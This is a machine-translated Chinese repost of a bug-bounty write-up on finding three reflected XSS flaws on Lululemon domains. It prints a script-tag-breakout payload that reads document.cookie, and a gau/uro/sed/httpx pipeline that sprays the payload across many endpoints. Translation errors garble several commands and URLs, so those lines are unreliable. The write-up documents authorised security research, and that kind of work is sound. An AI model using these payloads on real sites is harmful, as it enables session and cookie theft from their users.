





# 我是如何在 Lululemon bug 赏金程序中找到 3 个 rxs 的

> 原文：<https://infosecwriteups.com/how-i-found-3-rxss-on-the-lululemon-bug-bounty-program-fa357a0154c2?source=collection_archive---------0----------------------->

大家好，今天我将向你们展示如何用简单的技术找到整个子域中的多个系列漏洞

## 让我们开始我们的故事

当我在 Bugcrowd 上搜索 [Lululemon](https://bugcrowd.com/lululemon) 节目时

我开始查看主域名[https://www.lululemon.co.uk](https://www.lululemon.co.uk)

在我花了一些时间在主域上之后，我开始使用 [Arjun](https://github.com/s0md3v/Arjun) 进行参数暴力破解

> https://www.lululemon.co.uk/en-uk/search-ot lululemon-parameters

输出文件如下所示

> ┌──(omar㉿kali)-[~]
> └─$猫 lululemon-参数| QS 替换奥马尔

在浏览器中请求链接时发现 q 参数值反映在脚本标记内的双引号中

``

我试着去掉双引号，并像这样在脚本标签中注入我的有效载荷

> [https://www.lululemon.co.uk](https://www.lululemon.co.uk)/en-uk/search？q =奥马尔"；警报(域)；//

但是反射是这样的

``

所以看起来开发者绕过了引号，以防止攻击者避开双引号，从而不注入恶意代码

开放标签<

> [https://www.lululemon.co.uk](https://www.lululemon.co.uk)/en-uk/search 怎么样？q =奥马尔<

倒影是这样的

``

所以我希望开发人员在后台使用代码来打印 q 参数的值，就像这样

`<?php echo(addslashes($_GET['q'])) ?>`

这意味着我们不能使用引号，但我们可以关闭脚本标签，然后打开一个新标签，并在其中编写我们的 javascript 代码

> [https://www.lululemon.co.uk](https://www.lululemon.co.uk)/en-uk/search？q =</脚本> <脚本>预警(document . cookie)</脚本>

## 第一个 XSS 在:

[https://www.lululemon.co.uk](https://www.lululemon.co.uk)

通常，当开发人员犯了一个错误时，很有可能会在其他地方犯同样的错误

所以下一步是在其他域和子域端点上测试这个 XSS

## 简单侦察:

使用 [gau](https://github.com/lc/gau) 工具被动收集端点，然后使用 [uro](https://github.com/s0md3v/uro) 工具获得唯一端点，过滤图像、js、css 和其他静态文件

> ┌──(omar㉿kali)-[~]
> └─$猫子域. txt|gau |uro > endpoints.txt

使用 sed 命令将我们的“q”参数添加到所有端点，并将 url 编码的有效负载“”作为值

> ┌──(omar㉿kali)-[~]
> └─$？(.*)|$/\?q = % 3C % 2f script % 3E % 3c script % 3e alert(document . cookie)% 3C % 2f script % 3E/g " endpoints . txt

使用 httpx 请求端点，并使用参数-ms 匹配我们的有效负载

> ┌──(omar㉿kali)-[~]
> └─$ httpx-l endpoints . txt-ms "</脚本> <脚本>警报(document . cookie)</脚本>

这就是结果

## 第二个 XSS 在:

[https://www.lululemon.co](https://www.lululemon.co.uk)m.hk

## 第三个 XSS 在:

https://www.eu.lululemon.co m

# **保持联系:**

[**LinkedIn**](https://www.linkedin.com/in/omar-1-hashem)**|**[**Youtube**](https://www.youtube.com/channel/UCJ1yNtgZP5LRO7ebZXSnAZQ/videos)**|**[**Twitter**](https://twitter.com/OmarHashem666)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！